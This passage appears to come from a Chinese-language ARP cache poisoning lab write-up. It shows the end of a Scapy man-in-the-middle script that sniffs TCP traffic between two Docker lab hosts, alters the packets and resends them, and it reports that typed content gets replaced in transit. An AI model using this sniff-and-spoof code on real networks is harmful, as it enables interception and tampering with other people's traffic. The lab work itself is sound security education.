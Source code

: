 ```python
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

在A上输入内容，B上能够收到信息，然而当我们输入特定的内容时就会被替换。

![image-20220505233802284](ARPCachePoisoning/image-20220505233802284.png)

攻击脚本处也能印证。

![image-20220505234122031](ARPCachePoisoning/image-20220505234122031.png)

最后不要忘记<kbd>Ctrl + C</kbd>关闭所有程序，并关闭Docker。

![image-20220505234926488](ARPCachePoisoning/image-20220505234926488.png)

